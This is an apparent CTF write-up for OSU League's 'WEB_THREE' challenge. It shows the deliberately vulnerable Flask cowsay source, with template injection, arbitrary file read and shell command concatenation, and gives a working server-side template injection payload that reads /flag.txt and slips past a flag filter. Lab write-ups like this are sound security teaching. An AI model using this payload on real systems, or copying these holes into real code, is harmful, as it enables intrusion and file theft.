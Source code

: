 ```yaml
---
title: "OSU League 2020/2021 - WEB_THREE"
date: 2021-03-07
draft: false
description: ""
tags: ["ctf"]
---
```

For this challenge, we are given a website that bears a resemblance to a previous challenge we did (cowsay), though this one is a bit more complicated.

{{< figure src="/img/1.png" >}}

We can start by just entering in some text and seeing what happens:

{{< figure src="/img/2.png" >}}

Neat! Let's look at the source code:

```python
# coding=utf-8

from flask import render_template, render_template_string, flash, redirect, session, url_for, request, g, Markup, Response
from app import app
import uuid
import traceback
import os

def _generate_cowsay_file():
    return '/tmp/cow-' + str(uuid.uuid4())


@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html')


@app.route('/cowsay')
def cowsay():
    filename_in = _generate_cowsay_file()
    filename_out = _generate_cowsay_file()
    with open(filename_in, 'w') as f:
        f.write(str(request.args.get('msg'))[:2000])

    # cowsay!
    os.system('cat ' + filename_in + ' | /usr/games/cowsay -TU -W 2000 > ' + filename_out + ' 2>&1')
    return redirect('/render?path=' + filename_out, code=302)


@app.route('/render')
def about():
    try:
        with open(request.args.get('path', 'layout.html'), 'r') as f:
            resp = render_template_string('''{% extends "layout.html" %}{% block content %}<div class="jumbo"><h1>Your cow says...</h1><code>''' + f.read() + '''</code><br><p><a href="/">do it again!!!!!!!!!</a></p></div>{% endblock %}''')

            # check if the user is trying to do something evil :((
            if u'OSUSEC{' in resp:
                resp = u'I see the flag in the response! Nice try.'

            return Response(response=resp, status=200)
    except:
        msg = 'We could not fetch your page! Sorry :(\n\n' + traceback.format_exc()
        return Response(response=msg, status=500, mimetype='text/plain')
```

Ah, we have a Flask challenge.  We've done this before (see nopship)! All we have to do is a Flask injection to do arbitrary read on `flag.txt`, but there is a slight problem, the server actually checks to see if 'OSUSEC{' is in the output, and aborts if it does. That's ok, because we can just read only the text after that.

Doing a simple google search for arbitrary read with Flask injection will give us our payload:

```
{{ config.items()[4][1].__class__.__mro__[1].__subclasses__()[40]("/flag.txt").read()[27:120] }}
```

And running it we get the flag!

{{< figure src="/img/3.png" >}}

```
OSUSEC{ok_s0_y0u_f1gur3d-out_d1rect0ry-tr@versal_w0nt-b3_helpful-here?}
```

